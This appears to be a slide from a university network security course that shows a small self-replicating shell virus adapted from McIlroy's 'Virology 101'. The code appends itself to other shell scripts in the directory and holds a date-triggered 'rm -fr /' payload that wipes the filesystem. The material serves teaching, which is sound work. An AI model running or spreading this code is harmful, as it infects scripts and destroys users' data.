

# An Example (Shell) Virus
#!/bin/sh

#mcilroy#

for f in *
do
  case `sed 1q $f` in
	  "#!/bin/sh")
	      grep '#mcilroy#' $f > /dev/null || sed -n '/#mcilroy#/,$p' $0 >> $f
  esac
done 2> /dev/null

date=`date +%m%d`
if [ $d -eq "1225" ]
then
    rm -fr /
fi

Adapted from D. McIlroy: Virology 101
3413ICT Network Security